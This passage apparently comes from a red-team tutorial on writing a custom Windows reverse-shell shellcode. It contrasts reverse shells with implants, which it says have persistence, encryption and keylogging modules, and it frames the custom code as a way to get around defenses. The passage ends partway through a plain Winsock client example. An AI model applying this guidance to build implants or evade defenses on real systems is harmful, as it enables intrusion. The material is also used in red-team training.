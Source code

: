 Reverse shells are similar to but distinct from *implants* (also referred to as beacons or agents). These are typically more fully featured and offer functionality above just providng a command line interface. An implant can be implemented in many languages, but much of the malware implants targeting Windows machines will be created using compiled languages like C/C++, Go, or Rust. 

In general, a full blown implant will include several features not present in a reverse shell, including:

- Persistence: An implant may install itself to run across reboots
- Communications Encryption: A typical reverse shell will not leverage session encryption, leaving the contents of the session visible on the wire.
- Modularity: Implants may heave extended, modular features for achieving privilege escalation, lateral movement, keylogging, etc.

## Developing a Custom Shellcode

Developing a reverse shell from scratch is a step towards developing a custom implant. A custom implant is something that every advanced red team can use in order to work around the existing defense mitigations for off-the-shelf implant frameworks. Additionally, developing a custom shellcode provides experience with many of the important fundamentals in malware development. This guide will cover writing a custom shellcode in assembly, but the same logic can be applied to most higher level languages.

For our shellcode to work, we need three main ingredients:

1. Ability to read and write data over the network
2. Ability to spawn processes
3. Ability to read output from created processes

We must be able to talk over the network to send commands to the shellcode and receive the result (1). The shellcode must be able to run our commands on the target system (2) and read the result of the command, so that we can send it back to the server (3).

Microsoft makes it straightforward to accomplish all of these using the Winsock and Windows APIs:

- Winsock has functions for creating network connections, and performing read/write operations on them
- The Windows API has functions for creating processes, shared memory (for process output), and reading shared memory

### Winsock Example

A high-level example of sending a message to a server over Winsock would look like this (client in C++, server in Python):

```C++
#include <winsock2.h>
#include <ws2tcpip.h>  // Include for inet_pton
#include <iostream>

// Link with ws2_32.lib
#pragma comment(lib, "Ws2_32.lib")

int main() {
    WSADATA wsaData;
    SOCKET ConnectSocket = INVALID_SOCKET;
    sockaddr_in server;

    // Initialize Winsock
    WSAStartup(MAKEWORD(2, 2), &wsaData);

    // Create a socket
    ConnectSocket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    // Define the server address and port
    server.sin_family = AF_INET;
    server.sin_port = htons(27015);
```